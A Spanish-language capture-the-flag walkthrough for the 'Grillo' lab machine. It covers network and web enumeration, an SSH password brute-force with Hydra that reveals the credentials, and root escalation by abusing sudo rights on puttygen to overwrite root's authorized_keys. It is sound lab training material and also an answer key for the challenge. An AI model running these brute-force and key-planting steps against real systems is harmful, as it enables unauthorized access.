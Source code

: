 # Grillo

Maquinas que utilizamos Kali Linux y Grillo [https://thehackerslabs.com/grillo/](https://thehackerslabs.com/grillo/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2029.png)

```bash
ping -c 1 10.0.3.27 
```

Es una maquina Linux.

![image.png](./imagenes/image%2030.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.27
```

![image.png](./imagenes/image%2031.png)

`22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`

`80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))`

- Miramos el contenido del puerto 80 en el navegador web
    
    ![image.png](./imagenes/image%2032.png)
    

- Hacemos fuzzing web .
    
    ```bash
    gobuster dir -u http://10.0.3.27 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,sh,html,txt
    ```
    
    ![image.png](./imagenes/image%2033.png)
    

```bash
dirb http://10.0.3.277
```

![image.png](./imagenes/image%2034.png)

```bash
dirsearch -u http://10.0.3.27/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

![image.png](./imagenes/image%2035.png)

No encontramos nada

- Volvemos a mirar en el navegador pero inspeccionamos el código fuente.
    
    `CTRL+U`
    
    ![image.png](./imagenes/image%2036.png)
    
    Al final del código vemos este comentario y nos da una pitas de un posible nombre de ususrio para SSH. “**melanie**”
    

- Hacemos un ataque de fuerza bruta a SSH con Hydra.
    
    ```bash
    hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.27
    ```
    
    ![image.png](./imagenes/image%2037.png)
    
    Ya tenemos **Usuario: melanie y Password: trustno1**
    

- Lo probamos en SSH.
    
    ```bash
    ssh melanie@10.0.3.27
    ```
    
    ![image.png](./imagenes/image%2038.png)
    

`ls -la`

![image.png](./imagenes/image%2039.png)

    
- Miramos dentro del directorio **/opt**
    
    <aside>
    
    El directorio /opt se usa para instalar software adicional que no forma parte del sistema operativo base. Es decir, aquí suelen encontrarse aplicaciones, paquetes de software y herramientas de terceros que han sido instalados manualmente o por algún administrador.
    
    </aside>
    
    `cd /opt`
    
    `ls -la`
    
    ![image.png](./imagenes/image%2041.png)
    
    No hay nada
    
- Hacemos sudo -l
    
    ![image.png](./imagenes/image%2042.png)
    
    `/usr/bin/puttygen`
    
    <aside>
    💡
    
    PuTTYgen es una herramienta utilizada en Linux para generar claves SSH públicas y privadas. Funciona de manera similar a ssh-keygen en OpenSSH y permite crear pares de claves para autenticación segura. Además, PuTTYgen puede convertir formatos de claves y almacenar claves en archivos .ppk, que son el formato nativo de PuTTY.
    
    </aside>
    
- Nos vamos al directorio home y creamos un  par de claves: una privada y una pública
`ssh-keygen`
    
    ![image.png](./imagenes/image%2043.png)
    
    `cd melanie/`
    
    `ls -la`
    
    `cd .ssh`
    
    `ls`
    
    ![image.png](./imagenes/image%2044.png)
    

- Hacemos que clave pública la podamos utilizar para autentificarnos en SSH.
    
    `sudo /usr/bin/puttygen id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys`
    
    <aside>
    💡
    
    Este comando convierte una clave pública SSH que hemos generado con ssh-keygen y  **PuTTYgen** (id_rsa.pub) la convierte al formato OpenSSH y la guarda en el archivo authorized_key dentro del directorio **.ssh** de root ya que Puttygen tiene permisos de root. Esto permite que la clave pública sea utilizada para autenticación SSH en un servidor Linux.
    
    </aside>
    
    ![image.png](./imagenes/image%2045.png)
    
- Nos conectamos a SSH como root.
    
    `ssh root@10.0.3.27`
    
    ![image.png](./imagenes/image%2046.png)
    
    No nos pide contraseña
 